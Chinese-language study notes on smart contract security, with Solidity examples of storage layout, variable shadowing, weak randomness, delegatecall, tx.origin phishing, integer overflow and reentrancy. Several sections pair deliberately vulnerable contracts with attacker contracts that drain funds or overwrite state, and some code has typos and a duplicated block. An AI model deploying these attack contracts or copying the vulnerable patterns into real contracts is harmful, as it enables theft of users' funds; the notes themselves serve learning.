


## 资料:

| 安全库Secureum:                         | `https://secureum.substack.com/`                             |
| --------------------------------------- | ------------------------------------------------------------ |
| 入门教程:                               | `https://console-cowboys.blogspot.com/2020/08/smart-contract-hacking-chapter-1.html` |
| 读private变量                           | `https://learnblockchain.cn/article/4199`                    |
| Ethernaut CTF                           | `https://ethernaut.openzeppelin.com/`                        |
| Ethernaut答案                           | `https://xz.aliyun.com/t/7173`<br />`https://xz.aliyun.com/t/7174` |
| Ethernaut 题库闯关 #13 — Gatekeeper One | `https://learnblockchain.cn/article/4656`                    |
| 合约安全之-变量隐藏安全问题分析         | `https://learnblockchain.cn/article/4204`                    |
|                                         |                                                              |
|                                         |                                                              |


## 工具:

| 区块浏览器 | bloxy.info |
| ---------- | ---------- |
|            |            |
|            |            |
|            |            |

## 案例:

| DeFi 协议 bZx 二次被黑 | 通过闪电贷操纵uniswap价格攻击                              | `https://mp.weixin.qq.com/s/XTMdy826NTRarKY3wVIdog`          |
| ---------------------- | ---------------------------------------------------------- | ------------------------------------------------------------ |
| Lendf.Me               | 通过ERC777重入,在supply()中重入withdraw() 导致余额二次更新 | `https://mp.weixin.qq.com/s/tps3EvxyWWTLHYzxsa9ffw`<br />`https://learnblockchain.cn/article/894` |
|                        |                                                            |                                                              |
|                        |                                                            |                                                              |

### 知识点:

#### 影子变量:

Base合约和Children合约都具有owner状态变量，却只有Base合约有onlyOwner修饰符。

- **对Base合约：**没有对owner进行赋值(owner默认为0x0000000000000000000000000000000000000000)，却直接定义了onlyOwner的修饰符。
- **对Children合约：**对owner进行赋值(owner默认为0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266)，却没有直接定义onlyOwner的修饰符(直接继承使用了Base合约的onlyOwner的修饰符)。

```
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.4.0;

import "hardhat/console.sol";

contract Base {
    address public owner;
    modifier onlyOwner() {
        require(msg.sender==owner,"Only Owner can call the function");
        _;
    }
}
contract Children is Base {
    uint public totalSupply = 100;
    address public owner;

    constructor() public {
        owner = msg.sender;
        console.log("\\nChildren constructor:%s",owner);

    }

    function withdraw(uint _amount) public onlyOwner   {
        totalSupply = totalSupply - _amount;
        // console.log(“aaa”);
    }
}
```

解决方法:

理解了上面的原因，很简单的两种修改方法：

1. 给Base合约加上owner的赋值。

   ```solidity
   constructor() public {
           owner = msg.sender;
           console.log("\\nBase constructor:%s",owner);
       }
   ```

2. 给Children合约加上OnlyOwner修饰符。

   ```solidity
   modifier onlyOwner() {
           require(msg.sender==owner,"Only Owner can call the function");
           _;
       }
   ```

#### 变量覆盖:

```
pragma solidity ^0.8.0;

contract VariableOverride {
    uint256 public globalVariable = 1;

    function setGlobalVariable(uint256 _globalVariable) public {
        uint256 globalVariable = _globalVariable;
        //使用uint256声明了与全局变量同名
        //去掉uint后 globalVariable = _globalVariable;
        // 在这里，使用 globalVariable 变量时，会优先使用局部变量，而不是全局变量。
        // 这将会覆盖全局变量的值，导致数据丢失。
    }
}

```

下面合约中，下面的三行diam重新定义了结构体，因此会覆盖第一个、第二个存储块，因为我们只需要见_name设置为bytes32(1)就可以将unlocked变为“ture”

0.8.0版本以下才有这个问题:

```
pragma solidity ^0.4.23; 

// A Locked Name Registrar
contract Locked {

    bool public unlocked = false;  // registrar locked, no name updates

    struct NameRecord { // map hashes to addresses
        bytes32 name; // 
        address mappedAddress;
    }

    mapping(address => NameRecord) public registeredNameRecord; // records who registered names 
    mapping(bytes32 => address) public resolve; // resolves hashes to addresses

    function register(bytes32 _name, address _mappedAddress) public {
        // set up the new NameRecord
        NameRecord newRecord;
        newRecord.name = _name;
        newRecord.mappedAddress = _mappedAddress; 
		
        resolve[_name] = _mappedAddress;
        registeredNameRecord[msg.sender] = newRecord; 

        require(unlocked); // only allow registrations if contract is unlocked
    }
}

contract attack{
    function hack(address param){
        Locked a = locked(param);
        a.register(bytes32(1),address(msg.sender));
    }
}
```

解决方法:

```
   NameRecord memory newRecord = NameRecord({
        name: _name,
        mappedAddress: _mappedAddress
    });
```


#### 运算符:

| mul  | *    |
| ---- | ---- |
| div  | /    |
| add  | +    |
| sub  | -    |


#### 剩余gas:

```
0.8.0< msg.gas
0.8.0> gasleft()
```


#### 合约构造函数中代码段长度为0:

```
 assembly { x := extcodesize(caller) }
```

#### 掩码（Mask）:

```
bytes4 a = 0xffffffff;
bytes4 mask = 0xf0f0f0f0;
bytes4 result = a & mask ;   // 0xf0f0f0f0
```

#### (XOR) 异或运算: 

```
1010
XOR  1101
    ------
     0111
异或的特性就是异或两次就是原数据
```


#### 类型转换:

1字节=2位16进制=8位2进制

#### call send transfer:

0.8.0版本后address 新增 transfer send

区别:

| transfer | gaslimit:2300 返回发送状态   |
| -------- | ---------------------------- |
| send     | 可以自定义gas 不反回发送状态 |
| call     | 发送所有可用gas              |


#### slot:

**合约数据在以太坊区块链上有2^256个槽，每个槽32字节.**

静态变量（除了映射和动态大小的数组类型之外的所有变量）从位置 0 开始在存储中连续布局。同时为了节省空间，会根据以下规则将需要少于 32 个字节的多个项目打包到一个存储槽中：

- 在每个槽中，第一项存储在低位，第二项存储在次低位，从低位向高位存储。
- 基本类型只使用存储它们所需的那么多字节，如一个bool只使用1个字节，1个uint16只使用2个字节。
- 如果一个存储槽的剩余空间不足以存储基本类型，则将该基本类型移动到下一个存储槽中存储。
- 结构休和数组总是开始一个新的槽并占据整个槽（但是结构体或数组中的子类型也会根据这些上面的规则被优化存储）。

数据按声明顺序依次存储在这些插槽中。 存储时会进行优化以节省存储空间。因此，如果依次的多个变量可以在单个 32 字节槽中容纳的话，它们将共享同一个槽，并且依次从最低有效位（从右侧）开始存储和索引。


1.addresss 占20字节

2.uint16 16/8 =2字节

3.从低位到高位存储 

获取低位16位 bytes16(uint256(bytes32_variable))

获取高位16位 bytes16(uint256(bytes32_variable >> 128))

**在 Solidity 0.8.0 及以上版本中，`constant` 常量和 `immutable` 常量都不会占用存储槽（slot）。**

**ethers 获取slot** 

let slot5 = await privider.getStorageAt(privacy.address, 5);  console.log("读取数据，使用读取到的密码调用unlock函数....");  

await privacy.unlock(ethers.utils.hexlify(slot5.slice(0,34)));  *//取16个字节，对应32位长度，再加上前面的0x前缀，一共要取34长度*

**数组类型在slot中存储长度**

**mapping类型在slot中存储起始位置 通过mapping映射类型hash获取**

## 攻击方法:

### 不良的随机数1:

#### blockhash有限位:

##### 原理:

```
function rand() public returns(uint256) {
    uint256 random = uint256(keccak256(block.blockhash(block.number)));
    return  random%10;
 }
```

上述代码使用BlockHash作为随机数，BlockHash在区块正式生成之前是不可知的，在这里通过block.number变量可以获取当前区块区块高度，但是在执行时，当前区块属于未来区块，它的blockhash是不可知的，即只有在打包包含此合约调用的交易时，这个未来区块才变为当前区块，所以合约才可以获取此区块的区块哈希，因此这种调用方式会导致结果永恒为0

```
uint256 random = uint256(keccak256(block.blockhash(block.number - 1)));
```


在TVM中blockhash被限定为只能获取近256个高度区块的数据，因此在以上的两笔交易间隔超过256 * 3s，大约12.8分钟后，这种方式就会失效


##### 代码:

```
pragma solidity ^0.6.6;
 
contract simpleVulnerableBlockHash {
    uint32 public block_number;
    bytes32 public myHash;
 
	function get_block_number() public  {   
                 block_number = uint32(block.number);
         }

	function set_hash() public{
                myHash = bytes32(blockhash(block_number));
        }

	 function wasteTime() public{
					uint test = uint(block.number);
	 }
}
```

#### 同区块block属性相同:

##### 原理:

且在同一区块中 block.number 和 block.timestamp 这两个参数是不变的，所以，Attack.attack() 和 guessTheRandomNumber.guess() 这两个函数生成的随机数的结果是相同的，从而攻击者可以顺利通过 if(_guess == answer) 判断得到奖励。

##### 代码:

```
pragma solidity ^0.8.13;
contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

```
pragma solidity ^0.8.13;
contract Attack {
    receive() external payable {}

    function attack(GuessTheRandomNumber guessTheRandomNumber) public {
        uint answer = uint(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        );

        guessTheRandomNumber.guess(answer);
    }

    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```


### delegatecall 委托调用

#### 原理:

1.通过逻辑合约修改非对应的存储数据插槽slot

#### 代码:

```
  pragma solidity 0.6.6;
  
  contract LogicContract {
     uint public a;
  
     function set(uint256 val) public {
       a = val;
     }
   }
 
 contract CallingContract {
		uint256 public b = 5; 
		uint256 public a = 5;
		address logic_pointer = address(new LogicContract());
	 
		function setA(uint val) public {
			 logic_pointer.delegatecall(abi.encodeWithSignature("set(uint256)", val));
		}
	}
```



### tx.origin 间接攻击

#### 原理:

1.通过调用的方式间接修改owner地址,并不是直接攻击合约

#### 代码:

```
 pragma solidity ^0.6.6;
  
 interface targetInterface {
 function transferTo(address payable to, uint amount)  payable external;
 function changeOwner(address newOwner) external;
 function kill() external;
 }
  
 contract PhishingBankOfEther {
  address payable attackerAddress;
    
  constructor() public {
     attackerAddress = msg.sender;
  }
    
  targetInterface bankInterface = targetInterface(ADDRESS);
 
  function test () payable public {
     bankInterface.transferTo(attackerAddress, 1 ether);
     bankInterface.changeOwner(attackerAddress);
  }
}


 pragma solidity ^0.6.6;
 
 contract BankOfEther {
    address owner;
    mapping (address =>uint) balances;
     
    constructor() public {
      owner = msg.sender;
    }
   
 function deposit() public payable{
   balances[msg.sender] = balances[msg.sender]+msg.value;     
  }
   
 function transferTo(address payable to, uint amount) public payable{
     require(tx.origin == owner);
     to.transfer(amount);
 }
   
 function changeOwner(address newOwner) public{
     require(tx.origin == owner);
     owner = newOwner;
                }
   
 function kill() public {
     require(msg.sender == owner);
     selfdestruct(msg.sender);
 }
}
```


### 整数溢出:

####  参数:

0x8000000000000000000000000000000000000000000000000000000000000000

["0x617F2E2fD72FD9D5503197092aC168c91465E7f2","0x5c6B0f7Bf3E7ce046039Bd8FABdfD3f9F5021678"]

#### 原理:

uint无符号整数超出2**256-1后会从0开始计算

0.8.0以后修复了整数溢出

在 Solidity 0.8.0 版本及以后的版本中，如果你尝试将一个 uint256 类型的值加上 1，当这个值已经达到了 uint256 的最大值时，会抛出一个类型为 `Overflow/Underflow` 的异常，从而避免了整数溢出的问题

#### 代码:

```
  pragma solidity ^0.4.16;
  contract test{
    using SafeMath for uint256;
  
    mapping(address => uint256) public balances;
 
    function batchTransfer(address[] _receivers, uint256 _value) public  returns (bool) {
        uint cnt = _receivers.length;
        uint256 amount = uint256(cnt) * _value;
        //0x8000000000000000000000000000000000000000000000000000000000000000
        // amount = 0
        require(cnt > 0 && cnt <= 20);
        require(_value > 0 && balances[msg.sender] >= amount);
        //0x8000000000000000000000000000000000000000000000000000000000000000>0
        //balances[msg.sender] >= 0
        for(uint i;i < cnt; i++){
            balances[_receivers[i]] = balances[_receivers[i]].add(_value);
        }
        balances[msg.sender] = balances[msg.sender].sub(amount);
        
        return true;
    }
    function deposit(uint256 _value) public{
        balances[msg.sender] = balances[msg.sender].add(_value);
    }

    function get_cnt( uint256 len,uint256 _value) public  returns(uint){
        return len*_value;
    }
  }
   


  library SafeMath {
  function mul(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a * b;
    assert(a == 0 || c / a == b);
    return c;
  }

  function div(uint256 a, uint256 b) internal constant returns (uint256) {
    // assert(b > 0); // Solidity automatically throws when dividing by 0
    uint256 c = a / b;
    // assert(a == b * c + a % b); // There is no case in which this doesn't hold
    return c;
  }

  function sub(uint256 a, uint256 b) internal constant returns (uint256) {
    assert(b <= a);
    return a - b;
  }

  function add(uint256 a, uint256 b) internal constant returns (uint256) {
    uint256 c = a + b;
    assert(c >= a);
    return c;
  }
}


```

### 重入攻击:

#### 原理:

1.call函数会触发fallback,再fallback再次调用取款函数。

2.没有先修改金额再转账

3.使用transfer代替call或者加防重入modifer

#### 代码:

```
 
 pragma solidity ^0.6.6;
  
 contract simpleReentrancy {
   mapping (address => uint) private balances;
     
    function deposit() public payable  {
        require((balances[msg.sender] + msg.value) >= balances[msg.sender]);
        balances[msg.sender] += msg.value;
    }
 
    function withdraw(uint withdrawAmount) public returns (uint) {
        require(withdrawAmount <= balances[msg.sender]);
        msg.sender.call.value(withdrawAmount)("");
        //0.8.0
        //(bool success, ) = msg.sender.call{value: withdrawAmount}("");
		//require(success, "Transfer failed.");
        
    balances[msg.sender] -= withdrawAmount;
        return balances[msg.sender];
    }
        
    function getBalance() public view returns (uint){
        return balances[msg.sender];
    }
}
```

```
pragma solidity ^0.6.6;
   interface targetInterface{
     function deposit() external payable; 
     function withdraw(uint withdrawAmount) external; 
   }
  
  contract simpleReentrancyAttack{
     targetInterface bankAddress = targetInterface(0xB9e2A2008d3A58adD8CC1cE9c15BF6D4bB9C6d72); 
     //被攻击合约地址
     uint amount = 1 ether; 
  
	  function deposit() public payable{
		bankAddress.deposit.value(amount)();
	  }
		
	  function attack() public payable{
		bankAddress.withdraw(amount); 
	  }
	  
	  function retrieveStolenFunds() public {
		msg.sender.transfer(address(this).balance);
	  }
	  
	  fallback () external payable{ 
		if (address(bankAddress).balance >= amount){
			 bankAddress.withdraw(amount);
		}   
	  }
}
```


## 合约参数解析:

### 数组参数:



1.图中[0]=40转hex表示长度64 长度是44/32=2 

2.[2]表示_value = 2